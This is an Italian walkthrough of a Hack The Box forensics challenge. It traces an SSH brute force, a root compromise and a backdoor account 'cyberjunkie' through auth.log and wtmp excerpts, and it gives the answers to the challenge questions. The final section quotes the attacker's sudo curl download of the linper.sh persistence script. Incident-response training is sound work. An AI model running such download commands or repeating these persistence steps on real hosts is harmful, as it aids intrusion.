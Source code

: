 ```yaml
---
title: "Brutus Walkthrough"
description: "In questo Sherlock molto facile, ti familiarizzerai con i log Unix auth.log e wtmp. Esploreremo uno scenario in cui un server Confluence è stato compromesso tramite brute-force sul servizio SSH. Dopo aver ottenuto l’accesso, l’attaccante ha svolto ulteriori attività rilevabili tramite auth.log. Anche se auth.log viene usato principalmente per l’analisi dei brute-force, andremo a sfruttare tutto il suo potenziale nell’indagine, inclusi aspetti di privilege escalation, persistenza e persino visibilità sull’esecuzione di comandi."
author: dua2z3rr
date: 2025-09-14 1:00:00
categories: [Sherlocks]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Authentication", "Area di Interesse: Web Application", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Misconfiguration", "Vulnerabilità:  Hard-coded Credentials", "Codice: Java"]
image: /assets/img/brutus/brutus-resized.png"
---
```


## Introduzione

### Domande
1. Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?
2. I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?
3. Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.
4. Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?
5. L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?
6. Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?
7. A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?
8. L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

### Overview

Per completare lo sherlock ci viene fornita una zip. Questa zip contiene 3 file:

## Risposte

### Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?

Cominciamo a leggere dall'inizio il log file `auth.log`.

```log
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
<SNIP>
```

Vediamo che i tentativi falliti di login provengono dallo stesso ip. Questi tentativi di login si presentano molte volte. Possiamo quindi assumere con certezza che l'IP dell'attaccante è quello.

Risposta: `65.2.161.68`

### I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?

Vediamo, proprio all'inizio del file (riga 12), che l'attacco ha avuto successo sull'utente **root**.

```log
<SNIP>
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
<SNIP>
```

Risposta: `root`

### Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.

Utilizzando lo script di python `utmp.py` nella zip possiamo vedere le date dei login. Le prime volte in cui l'attaccante si è loggato all'utente **root** era grazie all'attacco brute force. Questo lo capiamo perchè si scollega instantaneamente. Perciò inseriamo la data di quando l'attaccante si è loggato come utente **root** l'ultima volta.

```txt
"RUN_LVL"	"53"	"~"	"~~"	"runlevel"	"6.2.0-1018-aws"	"0"	"0"	"0"	"2024/03/06 07:17:29"	"538024"	"0.0.0.0"
"USER"	"1583"	"pts/0"	"ts/0"	"root"	"203.101.190.9"	"0"	"0"	"0"	"2024/03/06 07:19:55"	"151913"	"203.101.190.9"
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
"USER"	"2667"	"pts/1"	"ts/1"	"cyberjunkie"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:37:35"	"475575"	"65.2.161.68"
```

> Ricordati che la risposta deve essere data nella timezone UTC. Visto che nel momento in cui ho usato lo script di python mi trovavo in Italia, devo tornare indietro di un ora.
{: .prompt-warning }

Risposta: `2024-03-06 06:32:45`

### Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?

Il numero di sezione si può leggere sotto l'entry del log che comunica il login con successo.

```log
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

La sessione che dobbiamo dare come risposta è sempre quella dove l'attaccante si collega manualmente.

Risposta: `37`

### L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?

Possiamo vedere sul file `auth.log` alla riga 338 la creazione da parte di root di un nuovo utente.

```log
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

Risposta: `cyberjunkie`

### Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?

Cerchiamo online per la risposta.

![Desktop View](/assets/img/brutus/brutus-mitre-research.png)

Per questa tecnica ci sono più sotto-tecniche basate sul tipo di account creato.

![Desktop View](/assets/img/brutus/brutus-mitre-sub-technique.png)

L'attaccante ha creato un utente locale.

Risposta: `T1136.001`

### A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?

Per rispondere a questa domanda basta vedere la prima sessione dall'attaccante sul file wtmp (ci serve questo format per la risposta), e leggere quando è terminata (DEAD).

```txt
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
```

Risposta: `2024-03-06 06:37:24`

### L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

Controlliamo i comandi utilizzati dopo il login dell'account **cyberjunkie**.

```log
<SNIP>
Mar  6 06:39:01 ip-172-31-35-28 CRON[2764]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
<SNIP>
```

Risposta: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
